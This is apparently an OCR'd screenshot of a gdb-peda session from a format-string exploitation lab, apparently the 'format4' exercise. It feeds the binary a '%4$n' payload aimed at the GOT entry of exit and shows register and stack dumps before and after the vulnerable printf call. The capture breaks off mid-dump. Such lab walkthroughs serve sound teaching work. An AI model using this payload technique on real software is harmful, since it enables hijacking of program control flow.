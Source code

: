 ```nasm
   0x08048525 <+44>:	push   eax
   0x08048526 <+45>:	call   0x8048380 <fgets@plt>
   0x0804852b <+50>:	add    esp,0x10
   0x0804852e <+53>:	sub    esp,0xc
   0x08048531 <+56>:	lea    eax,[ebp-0x208]
   0x08048537 <+62>:	push   eax
   0x08048538 <+63>:	call   0x8048360 <printf@plt> ; Place the breakpoint here
   0x0804853d <+68>:	add    esp,0x10
   0x08048540 <+71>:	sub    esp,0xc
   0x08048543 <+74>:	push   0x1
   0x08048545 <+76>:	call   0x80483a0 <exit@plt>
End of assembler dump.
gdb-peda$ br *0x08048538
Breakpoint 1 at 0x8048538
gdb-peda$ run < <(python -c 'print "\xac\x98\x04\x08%4$n"')
Starting program: /home/user/demo/format4 < <(python -c 'print "\xac\x98\x04\x08%4$n"')

[----------------------------------registers-----------------------------------]
EAX: 0xbffff480 --> 0x80498ac --> 0x80483a6 (<exit@plt+6>:	push   0x20)
EBX: 0x8049890 --> 0x80497a0 --> 0x1 
ECX: 0xb7fcc87c --> 0x0 
EDX: 0xbffff480 --> 0x80498ac --> 0x80483a6 (<exit@plt+6>:	push   0x20)
ESI: 0x1 
EDI: 0xb7fcb000 --> 0x1b2db0 
EBP: 0xbffff688 --> 0xbffff698 --> 0x0 
ESP: 0xbffff470 --> 0xbffff480 --> 0x80498ac --> 0x80483a6 (<exit@plt+6>:	push   0x20)
EIP: 0x8048538 (<vuln+63>:	call   0x8048360 <printf@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804852e <vuln+53>:	sub    esp,0xc
   0x8048531 <vuln+56>:	lea    eax,[ebp-0x208]
   0x8048537 <vuln+62>:	push   eax
=> 0x8048538 <vuln+63>:	call   0x8048360 <printf@plt>
   0x804853d <vuln+68>:	add    esp,0x10
   0x8048540 <vuln+71>:	sub    esp,0xc
   0x8048543 <vuln+74>:	push   0x1
   0x8048545 <vuln+76>:	call   0x80483a0 <exit@plt>
Guessed arguments:
arg[0]: 0xbffff480 --> 0x80498ac --> 0x80483a6 (<exit@plt+6>:	push   0x20)
[------------------------------------stack-------------------------------------]
0000| 0xbffff470 --> 0xbffff480 --> 0x80498ac --> 0x80483a6 (<exit@plt+6>:	push   0x20)
0004| 0xbffff474 --> 0x200 
0008| 0xbffff478 --> 0xb7fcb5a0 --> 0xfbad2088 
0012| 0xbffff47c --> 0x8048508 (<vuln+15>:	add    ebx,0x1388)
0016| 0xbffff480 --> 0x80498ac --> 0x80483a6 (<exit@plt+6>:	push   0x20)
0020| 0xbffff484 ("%4$n\n")
0024| 0xbffff488 --> 0xbfff000a --> 0x0 
0028| 0xbffff48c --> 0xb7fdec83 (<dl_main+8355>:	rdtsc)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048538 in vuln ()
gdb-peda$ x/x 0x080498ac ; Check the current value
0x80498ac:	0x080483a6
gdb-peda$ n ; Then step to pass printf()
??

[----------------------------------registers-----------------------------------]
EAX: 0x5 
EBX: 0x8049890 --> 0x80497a0 --> 0x1 
ECX: 0x400 
EDX: 0xb7fcc870 --> 0x0 
ESI: 0x1 
```